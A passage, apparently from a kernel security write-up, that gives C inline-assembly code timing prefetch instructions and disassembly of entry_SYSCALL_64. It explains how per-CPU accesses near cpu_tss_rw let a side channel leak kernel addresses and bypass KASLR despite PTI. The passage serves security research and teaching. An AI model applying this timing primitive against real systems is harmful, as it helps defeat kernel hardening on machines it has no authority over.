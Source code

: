 ```c
uint64_t sidechannel(uint64_t addr) {
  uint64_t a, b, c, d;
  asm volatile (".intel_syntax noprefix;"
    "mfence;"
    "rdtscp;"
    "mov %0, rax;"
    "mov %1, rdx;"
    "xor rax, rax;"
    "lfence;"
                
    "prefetchnta qword ptr [%4];"
    "prefetcht2 qword ptr [%4];"
    "xor rax, rax;"
    
    "lfence;"
    "rdtscp;"
    "mov %2, rax;"
    "mov %3, rdx;"
    "mfence;"
    ".att_syntax;"
    : "=r" (a), "=r" (b), "=r" (c), "=r" (d)
    : "r" (addr)
    : "rax", "rbx", "rcx", "rdx");
  a = (b << 32) | a;
  c = (d << 32) | c;
  return c - a;
}
```

When a syscall is executed, `entry_SYSCALL_64` will be accessed. What about `cpu_tss_rw`? The CPU register `gs_base` stores the PERCPU object base address. At the beginning of `entry_SYSCALL_64`, the user space `rsp` will be saved to `gs:[0x6014]` [1], which falls within the same page as `cpu_tss_rw` (0x6000).

```
# [...]
<entry_SYSCALL_64+41>:    push   0x2b
<entry_SYSCALL_64+43>:    push   QWORD PTR gs:0x6014          # [1]
# [...]
```

Furthermore, at the end of the syscall execution, `gs:[0x6004]` [2] is accessed to restore the RSP, once again accessing `cpu_tss`.

```
# [...]
<entry_SYSCALL_64+331>    mov    rdi, rsp
<entry_SYSCALL_64+334>    mov    rsp, qword ptr gs:[0x6004]   # [2]
<entry_SYSCALL_64+343>    push   qword ptr [rdi + 0x28]
# [...]
```

In other words, even with PTI enabled, it is still possible to **leak kernel text and heap addresses** through side-channel methods, thereby **bypassing KASLR**.
